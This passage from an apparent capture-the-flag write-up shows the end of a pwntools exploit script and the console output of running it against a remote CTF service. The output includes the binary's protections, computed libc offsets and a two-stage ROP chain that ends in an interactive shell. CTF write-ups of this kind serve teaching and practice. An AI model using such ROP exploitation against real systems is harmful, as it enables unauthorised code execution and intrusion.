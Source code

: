 ```python
    p.send(command)

    # Obtain our shell.
    log.success("Enjoy your shell!")
    p.interactive()


if __name__ == '__main__':
    main()

```

Running the script gives us the flag.

```console
$ python exploit.py
[+] Opening connection to 152.96.7.6 on port 1337: Done
[*] '/vagrant/cyberpeace/crysys/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/vagrant/cyberpeace/crysys/crySYS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] system@libc: 0x4f440
[*] read@libc: 0x110070
[*] system offset in libc from read: -0xc0c30
[*] Twos complement of this offset: 0xfffffffffff3f3d0
[*] /bin/sh string Address: 0x601040
[*] Loaded 14 cached gadgets for './crySYS'
[*] 0x0000:         0x400583 pop rdi; ret
    0x0008:              0x0 [arg0] rdi = 0
    0x0010:         0x400581 pop rsi; pop r15; ret
    0x0018:         0x601040 [arg1] rsi = 6295616
    0x0020:      b'iaaajaaa' <pad r15>
    0x0028:         0x4003f0 read
    0x0030:         0x40057a
    0x0038:              0x0
    0x0040:              0x1
    0x0048:         0x600e48
    0x0050:       0xdeadbeef
    0x0058:      b'waaaxaaa' rsi
    0x0060:      b'yaaazaab' rdx
    0x0068:         0x400560
    0x0070:      b'daabeaab' <add rsp, 8>
    0x0078: 0xfffffffffff3f3d0
    0x0080:         0x601055
    0x0088:      b'jaabkaab' r12
    0x0090:      b'laabmaab' r13
    0x0098:      b'naaboaab' r14
    0x00a0:      b'paabqaab' r15
    0x00a8:         0x4004c8
    0x00b0:         0x4003de ret
    0x00b8:         0x400583 pop rdi; ret
    0x00c0:         0x601040 [arg0] rdi = 6295616
    0x00c8:         0x4003f0 read
[*] Sending the first stage.
[*] Sending the second stage.
[+] Enjoy your shell!
```